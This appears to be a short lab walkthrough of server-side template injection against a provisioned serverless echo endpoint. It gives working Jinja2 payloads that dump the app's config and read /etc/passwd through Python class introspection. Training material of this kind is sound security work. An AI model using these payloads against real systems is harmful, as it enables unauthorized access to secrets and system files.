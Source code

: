 # **Server-Side Template Injection**


### *  *

-------

#### Step 1:

* On the provisioned server, post a payload to a serverless function

```commandline
http POST https://ynjz17crme.execute-api.us-east-1.amazonaws.com/dev/echo_service search_term=hello
```

* It can be observed that the payload is being rendered

-------

#### Step 2:

* Try to fetch the system configurations and `/etc/passwd` of the function

```commandline
http POST https://ynjz17crme.execute-api.us-east-1.amazonaws.com/dev/echo_service search_term="{{config.items()}}"

http POST https://ynjz17crme.execute-api.us-east-1.amazonaws.com/dev/echo_service search_term="{{''.__class__.mro()[2].__subclasses__()[40]('/etc/passwd').read()}}"
```
